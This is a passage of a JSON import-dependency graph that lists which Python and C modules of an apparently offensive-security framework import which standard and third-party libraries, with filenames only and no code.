"imports", "source": "modules/lazyown_bprfuzzer.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_bprfuzzer.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_bprfuzzer.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_bprfuzzer.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_bprfuzzer.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_bprfuzzer.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_bprfuzzer.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_bprfuzzer.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_bprfuzzer.py", "target": "modules.security_sanitizers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_bprfuzzer.py", "target": "http.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_bridge.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_bridge.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_bridge.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_bridge.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_bridge.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_bridge.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_metaextract0r.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_metaextract0r.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_metaextract0r.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_metaextract0r.py", "target": "docx"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_metaextract0r.py", "target": "exifread"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_metaextract0r.py", "target": "olefile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_metaextract0r.py", "target": "pypdf"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_parquet_tool.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_parquet_tool.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_parquet_tool.py", "target": "platform"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_parquet_tool.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_parquet_tool.py", "target": "pandas"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_parquet_tool.py", "target": "colorama"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_parquet_tool.py", "target": "tabulate"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownclient.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownclient.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownclient.py", "target": "binascii"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownclient.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownclient.py", "target": "platform"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownclient.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownclient.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownclient.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownclient.py", "target": "Crypto.Cipher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownclient.py", "target": "Crypto.Random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownclient.py", "target": "PIL"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownerweb.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownerweb.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownerweb.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownerweb.py", "target": "requests.exceptions"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownerweb.py", "target": "logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownerweb.py", "target": "logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownserver.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownserver.py", "target": "binascii"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownserver.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownserver.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownserver.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownserver.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownserver.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownserver.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownserver.py", "target": "Crypto.Cipher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyownserver.py", "target": "Crypto.Random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/legacy/__init__.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/legacy/__init__.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lesson_ingestor.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lesson_ingestor.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lesson_ingestor.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lesson_ingestor.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lesson_ingestor.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lesson_ingestor.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lesson_ingestor.py", "target": "modules.moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lesson_ingestor.py", "target": "modules.rl_trainer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lilsplunky.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lilsplunky.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lilsplunky.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lilsplunky.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lilsplunky.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lilsplunky.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lilsplunky.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lilsplunky.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lilsplunky.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lilsplunky.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lilsplunky.py", "target": "rich.panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lilsplunky.py", "target": "watchdog.events"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lilsplunky.py", "target": "watchdog.observers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lilsplunky.py", "target": "logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lilsplunky.py", "target": "logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/linux_advanced_payloads.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/linux_advanced_payloads.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/linux_advanced_payloads.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/linux_advanced_payloads.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/linux_advanced_payloads.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/linux_advanced_payloads.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/linux_advanced_payloads.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/linux_advanced_payloads.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/linux_advanced_payloads.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/listener_manager.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/listener_manager.py", "target": "errno"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/listener_manager.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/listener_manager.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/listener_manager.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/listener_manager.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/listener_manager.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/listener_manager.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/listener_manager.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/listener_manager.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/listener_manager.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/listener_manager.py", "target": "werkzeug.serving"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/live_surface.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/live_surface.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/live_surface.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/live_surface.py", "target": "world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_adapter.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_adapter.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_adapter.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_adapter.py", "target": "modules.legacy.lazydeepseekcli"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_adapter.py", "target": "modules.legacy.lazyphishingai"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_adapter.py", "target": "modules.llm_prompts"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_adapter.py", "target": "groq"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_adapter.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_client.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_client.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_client.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_client.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_client.py", "target": "urllib.error"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_client.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_client.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_client.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_client.py", "target": "modules.ai_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_client.py", "target": "ai_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_evaluator.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_evaluator.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_evaluator.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_evaluator.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_evaluator.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_evaluator.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_evaluator.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_evaluator.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_evaluator.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_factory.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_factory.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_factory.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_factory.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_factory.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_factory.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_factory.py", "target": "modules.ai_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_factory.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_factory.py", "target": "ai_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_factory.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_factory.py", "target": "modules.llm_client"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_factory.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_factory.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_factory.py", "target": "toposwarm_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_pool.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_pool.py", "target": "itertools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_pool.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_pool.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_pool.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_pool.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_pool.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_pool.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_pool.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_pool.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_pool.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_pool.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_prompts.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_prompts.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_prompts.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_prompts.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_prompts.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/llm_prompts.py", "target": "modules.colors"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/log_tamper.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/log_tamper.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/log_tamper.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/log_tamper.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/logging_config.py", "target": "contextvars"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/logging_config.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/logging_config.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/logging_config.py", "target": "logging.handlers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/logging_config.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/logging_config.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/logging_config.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_ai_bridge.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_ai_bridge.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_ai_bridge.py", "target": "modules.orchestrator_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_ai_bridge.py", "target": "modules.event_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_ai_bridge.py", "target": "skills.hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_ai_bridge.py", "target": "modules.detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_ai_bridge.py", "target": "modules.moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_ai_bridge.py", "target": "modules.moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_ai_bridge.py", "target": "modules.rl_trainer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_ai_bridge.py", "target": "modules.rl_trainer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_ai_bridge.py", "target": "modules.rl_trainer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_ai_bridge.py", "target": "skills.swan_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_ai_bridge.py", "target": "modules.detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_ai_bridge.py", "target": "modules.rl_trainer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_ai_bridge.py", "target": "modules.moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_progress.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_progress.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_progress.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_progress.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_progress.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_progress.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_progress.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_progress.py", "target": "core.safe_console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_progress.py", "target": "rich.panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_progress.py", "target": "rich.spinner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_progress.py", "target": "rich.table"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/loop_progress.py", "target": "rich.live"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/macos_payloads.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/macos_payloads.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/macos_payloads.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/macos_payloads.py", "target": "plistlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/macos_payloads.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/macos_payloads.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/macos_payloads.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/macos_payloads.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mario.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mario.py", "target": "pygame"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mcp_agent_bridge.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mcp_agent_bridge.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mcp_agent_bridge.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mcp_agent_bridge.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mcp_agent_bridge.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mcp_agent_bridge.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mcp_agent_bridge.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mcp_agent_bridge.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mcp_agent_bridge.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mcp_agent_bridge.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mcp_agent_bridge.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mcp_agent_bridge.py", "target": "groq"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mcp_agent_bridge.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mcp_agent_bridge.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mcp_agent_bridge.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/memory_cleaner.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/memory_cleaner.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/memory_cleaner.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/memory_cleaner.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/memory_store.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/memory_store.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/memory_store.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/memory_store.py", "target": "sqlite3"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/memory_store.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/memory_store.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/memory_store.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/memory_store.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/memory_store.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/memory_store.py", "target": "numpy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/metrics.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/metrics.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/metrics.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/metrics.py", "target": "math"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/metrics.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/metrics.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/metrics.py", "target": "collections"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/metrics.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/metrics.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/metrics.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/metrics.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/metrics.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mfa_bypass.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mfa_bypass.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mfa_bypass.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mfa_bypass.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mfa_bypass.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mfa_bypass.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/module_registry.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/module_registry.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/module_registry.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/module_registry.py", "target": "collections"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/module_registry.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/module_registry.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/module_registry.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/module_registry.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/module_registry.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/moe_router.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/moe_router.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/moe_router.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/moe_router.py", "target": "math"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/moe_router.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/moe_router.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/moe_router.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/moe_router.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/moe_router.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/moe_router.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/moe_router.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/moe_router.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/moe_router.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/moe_router.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/moe_router.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/moe_router.py", "target": "toposwarm_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/morse.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/morse.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/morse.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mysql_hookandroot_lib.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mysql_hookandroot_lib.c", "target": "sys/types.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mysql_hookandroot_lib.c", "target": "sys/stat.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mysql_hookandroot_lib.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mysql_hookandroot_lib.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mysql_hookandroot_lib.c", "target": "dlfcn.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mysql_hookandroot_lib.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mysql_hookandroot_lib.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mysql_hookandroot_lib.c", "target": "fcntl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mysql_hookandroot_lib.c", "target": "sys/socket.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/mysql_hookandroot_lib.c", "target": 